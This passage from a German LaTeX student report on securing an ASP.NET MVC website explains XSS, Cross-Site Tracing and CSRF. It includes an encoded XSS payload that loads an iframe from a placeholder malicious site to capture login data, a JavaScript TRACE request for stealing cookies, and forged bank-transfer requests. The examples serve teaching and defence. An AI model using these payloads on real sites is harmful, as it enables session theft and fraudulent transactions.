\url{ http://www.Sehr-Sichere-Webseite.com/program?value} den Parameter value and das Programm schicken.Und hier kommt Cross-Site-Scripting ins Spiel und man könnte wieder etwas bösartiges übergeben.\\ \\Ein Angreifer könnte jetzt diese Schwäche ausnutzen um zu eine anderen Website weiterzuleiten und selbst noch etwas hinzufügen, beispielsweise der Abfrage von Login Daten. \\ \\Beispiel\\ \\
\url{"http://www.EineFinanzseite.com/?q=
%3Cscript%3Edocument.write%28%22%3Ciframe+src%3D%27
http%3A%2F%2Fwww.BoeseSeite.com%27+
FRAMEBORDER%3D%270%27+WIDTH%3D%27800%27+HEIGHT%3D%27640%27
+scrolling%3D%27auto%27%3E%3C%2Fiframe%3E%22%29%3C%2Fscript%3E&...=...&... "}
\\ \\
Wobei die Modulo Buchstaben in Hexadezimal folgendes darstellen
\\ 3C : <
\\ 3E : >
\\ 28 : (
\\ 22 : "
\\ 3D : =
\\ 27 : '
\\ 3A : :
\\ 2F : /
\\ 29 : )\\ \\
Es ergibt sich daraus \\ \\
\url{http://www.EineFinanzseite.com/?q=<script>document.write("<iframe src='http://www.BoeseSeite.com' FRAMEBORDER='0' WIDTH='800' HEIGHT='640' scrolling='auto'></iframe>")</script>&...=...&...">}
\\ \\Beim Ausführen wird dann HTML Code eingefügt 
\\ \\
<iframe src='http://www.BoeseSeite.com' FRAMEBORDER='0' WIDTH='800' HEIGHT='640' scrolling='auto'></iframe>
\\ \\
Diese IFrame beinhaltet jetzt Code von der Bösen Seite und ermöglicht dem Angreifen eingegebene Daten vom User zu sehen. 
\subsubsection{Cross-Site-Tracing XST}
Beim Cross-Site-Tracing wird XSS und die HTTP-Methoden TRACE oder Track verwendet. TRACE ermöglicht dem Client, zu sehen, was am anderen Ende der Anforderungskette empfangen wird, und diese Daten für Test- oder Diagnoseinformationen zu verwenden.Die TRACK-Methode funktioniert auf gleich, ist jedoch spezifisch für IIS von Microsoft. Cross-Site-Tracing kann als Methode zum Stehlen von User-Cookies über Cross-Site-Scripting verwendet werden, auch wenn für das Cookie das Kennzeichen "HttpOnly" gesetzt ist und / oder der Autorisierungsheader des Benutzers verfügbar gemacht wird.
\\ \\
Obwohl die TRACE-Methode scheinbar harmlos ist, kann sie in einigen Szenarien erfolgreich eingesetzt werden, um die Berechtigungsnachweise legitimer Benutzer zu stehlen. Diese Angriffsmethode wurde 2003 von Jeremiah Grossman entdeckt, um den HttpOnly-Tag zu umgehen, den Microsoft in Internet Explorer 6 sp1 eingeführt hat, um Cookies vor dem Zugriff durch JavaScript zu schützen. Tatsächlich besteht eines der am häufigsten auftretenden Angriffsmuster in Cross Site Scripting darin, auf das document.cookie -Objekt zuzugreifen und es an einen vom Angreifer kontrollierten Webserver zu senden, damit er / sie die Sitzung des Opfers entführen kann. Das Markieren eines Cookies, da HttpOnly JavaScript den Zugriff auf das Cookie verbietet und es vor dem Senden an Dritte schützt. Die TRACE-Methode kann jedoch verwendet werden, um diesen Schutz zu umgehen und auf das Cookie selbst in diesem Szenario zuzugreifen.
\\ \\
Modernere Browser verhindern das TRACE über JavaScript gesendet werden kann.
\subsubsection{Beispiel}
\begin{lstlisting}
<script>
  var xmlhttp = new XMLHttpRequest();
  var url = 'http://127.0.0.1/';

  xmlhttp.withCredentials = true; // send cookie header
  xmlhttp.open('TRACE', url, false);
  xmlhttp.send();
</script>
\end{lstlisting}
\subsubsection{Wie gewährleisten wir XSS Protection}
Die Webseite beschränkt sich generell auf wenige Eingabe fenster wo eine Standard XSS versucht werden könnte. Alle diese Eingaben erlauben keine Tags oder Sonderzeichen. Auch Url Parameter können nie direkt gesendet werden und somit fällt auch der URL Faktor weg.
\\ \\
Alle Möglichen Eingabefelder
\\ \\

\includegraphics[width=20cm, height=10cm]{Webseite_XSS_img1}

\includegraphics[width=20cm, height=10cm]{Webseite_XSS_img2}

\includegraphics[width=14cm, height=6cm]{Webseite_XSS_img3}
\\ \\
In den URLS werden durch MVC und passende Implementierung nie Parameter gesendet bei denen man XSS Code einfügen könnte.\\ \\
Dadurch hat unsere Webseite eine Funktionierende XSS Protection

\subsubsection{XSRF/CSRF Protection}
\label{sec:csrf}
\subsubsection{Was ist XSRF/CSRF}
CSRF steht für Cross-Site Request Forgery. CSRF ist ein Angriff, bei dem das Opfer dazu gebracht wird, eine böswillige Anfrage zu übermitteln. Als Angreifer erbt man dabei die Identität und die Privilegien des Opfers und kann beispielsweise eine unerwünschte Funktion im Namen des Opfers ausführen. Bei den meisten Websites enthalten Browser-Anforderungen automatisch alle mit der Website verknüpften Anmeldeinformationen, z. B. Sitzungscookies des Benutzers, IP-Adresse, Anmeldeinformationen der Windows-Domäne usw. Wenn der Benutzer derzeit für die Seite authentifiziert ist, hat die Seite keine Möglichkeit, zwischen der vom Opfer gesendeten gefälschten Anfrage und einer vom Opfer gesendeten legitimen Anfrage zu unterscheiden.
\\ \\
Eine CSRF zielt oft darauf Daten zu Ändern. Beispielsweise das Kennwort und die Email eines Kontos oder das Kaufen eines Gegenstands.   der Angreifer erhält keine Antwort , sondern das Opfer. CSRF-Angriffe zielen daher auf Zustandsänderungsanforderungen ab.
\\ \\
Es ist manchmal möglich, den CSRF-Angriff auf der verwundbaren Seite selbst zu speichern. Das kann durch einfaches Speichern eines IMG- oder IFRAME-Tags in einem HTML-fähigen Feld oder durch einen komplexeren Cross-Site-Scripting-Angriff erreicht werden. Wenn der Angriff einen CSRF-Angriff in der Seite speichern kann, wird der Schweregrad des Angriffs erhöht. 

\subsubsection{Wie Funktioniert eine Solche Attacke}
Man baut sich eine bösartige URL oder ein bösartiges Skript und bringt das Opfer dazu den URL aufzurufen. 
\\ \\
Beispiel
\begin{lstlisting}
GET http://bank.com/transfer.do?acct=Angreiger&amount=1000 HTTP/1.1
\end{lstlisting}
Oder
\begin{lstlisting}
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>
\end{lstlisting}
Auch eine Post Request ist möglich
\\ \\
\begin{lstlisting}
POST http://bank.com/transfer.do HTTP/1.1
acct=Angreifer&amount=1000
\end{lstlisting}
\subsubsection{Verhindern}
\url{https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?view=aspnetcore-2.2}
\label{sec:sqli}
\subsubsection{Password Hashes}
\label{sec:hash}
\subsection{ASP.NET MVC}
In diesem Abschnitt beschäftigen wir uns mit ASP.NET MVC mit der unsere Webseite aufgebaut ist. Wir besprechen die Grundindention von MVC und was MVC ist. Wie die Webseite aufgebaut wurde werden wir anhand Code auszügen zeigen. Die beim MVC bekannten Views Controllers und Services werden aufgezeigt und erklärt. Ebenfalls wird behandelt wie die Links zu den Kalendern erzeugt und zur Verfügung gestellt werden. 

\label{sec:MVC}
\subsubsection{Allgemeines MVC}
\label{sec:allgemein}

\subsubsection{Aufbau der Webseite }
\label{sec:aufbau}
\subsubsection{Link generation}
\label{sec:link}
\subsubsection{Controller}
\label{sec:Controller}
\subsubsection{Views}
\label{sec:Views}
\subsubsection{Services}
\label{sec:Services}
\subsubsection{User Datenbank}
\label{sec:UserDB}
\begin{itemize}
	\item Salt
\end{itemize}
\label{sec:salt}

	\input{./Tests/Tests.tex}
	

\printbibliography  
\listoffigures


\end{document}

